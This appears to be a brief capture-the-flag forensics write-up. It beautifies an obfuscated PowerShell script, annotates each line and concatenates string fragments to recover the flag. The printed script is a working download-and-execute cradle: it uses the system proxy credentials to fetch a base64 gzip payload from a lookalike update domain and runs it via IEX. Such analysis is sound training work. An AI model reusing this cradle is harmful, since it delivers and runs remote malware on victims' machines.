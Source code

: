 1. After extracting we get one ps1 file (powershell script)
2. The whole script is written on one line, let's go on icyberchef.com and put the recip "**Generic Code Beautify**", we get the following code :

``` powershell
if ([System.Security.Principal.WindowsIdentity]::GetCurrent().Name  - ne 'secret_HQ\Arth'){exit}; # Check the computer name, "protection" to execute only on one computer
$w = New - Object net.webclient; # Create a web client
$w.Proxy.Credentials = [Net.CredentialCache]::DefaultNetworkCredentials; # Use the system proxy credentials to connect
$d = $w.DownloadString('http://windowsliveupdater.com/updates/33'  +  '96f3bf5a605cc4'  +  '1bd0d6e229148'  +  '2a5/2_34122.gzip.b64'); # download a file with the web client, file in gzip and b64
$s = New - Object IO.MemoryStream(, [Convert]::FromBase64String($d)); # base64 decode the content of the previously downloaded file
$f = 'H'  +  'T'  +  'B'  +  '{p0w3rs'  +  'h3ll'  +  '_Cr4d'  +  'l3s_c4n_g3t'  +  '_th'  +  '3_j0b_d'  +  '0n3}'; # The flag ! :D
IEX (New - Object IO.StreamReader(New - Object IO.Compression.GzipStream($s, [IO.Compression.CompressionMode]::Decompress))).ReadToEnd(); # Decompress the gz and read the content of the file
```

3. I add comments to explain each line of code, the variable **$f** contain the flag, we just need to concatenate all the strings and we get : **HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}**
